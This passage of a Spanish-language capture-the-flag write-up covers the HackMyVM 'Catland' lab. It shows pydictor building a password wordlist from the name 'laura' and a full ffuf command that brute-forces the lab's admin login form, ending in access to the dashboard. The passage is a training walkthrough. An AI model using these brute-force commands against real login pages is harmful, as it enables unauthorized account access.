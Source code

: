 Efectivamente, lo que estamos buscando, una tool que genere lista de palabras basadas en una "semilla" (en nuestro caso, **laura**, **cat** o **cats**).

Para un wordlist sencillo que relacione únicamente a ***laura*** se usaría así:

```bash
python3 pydictor.py --extend laura --output pydictor_wordlist.txt
```

Y si abrimos el archivo, tendría más o menos:

```bash
...
laura#laura
laura#Laura
...
LAURA!@#54321
LAURA!@#admin
...
2019Laura    
2010.Laura
...
Laura_123abc  
Laura.111
...
```

Listos, pues a ver, hay muuuuchas maneras de hacer esta fuerza bruta, pero como lo venía trabajando (en mis pruebas internas :P) sería mediante `ffuf`:

```bash
ffuf -c -w ./results/pydictor_wordlist.txt -H 'Content-Type: application/x-www-form-urlencoded' -u http://admin.catland.hmv/index.php -d "username=laura&password=FUZZ" -fs 1068
```

Con esto, le pasamos el wordlist recién generado, le pedimos que haga peticiones POST enviando **username** y **password** y seteamos la cabecera **Content-Type** indicándole que le estamos enviando parámetros basados en [llaves y valores](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).

Pero al ejecutarlo no obtenemos nada (ni con **cat** y demás variantes), así que probemos a agrandar las opciones de palabras (en este caso obtenemos más de 30.000 líneas, antes teníamos 1.500):

```bash
python3 pydictor.py --extend laura --level 1 --output pydictor_wordlist.txt
```

Volvemos a probar con **ffuf** yyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/catland/Catland_bash_ffuf_bruteforceLoginWithPYDICTORwordlist_foundLAURApassword.png" style="width: 100%;"/>

eSTA TOMAndO un PaTróN dE creDENcIaL coMO VALIDOOOOOO!

Si probamoooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/catland/Catland_page80admin_dashboardASlaura_afterTObruteforce.png" style="width: 100%;"/>

Estamos dentroooooowowowow.
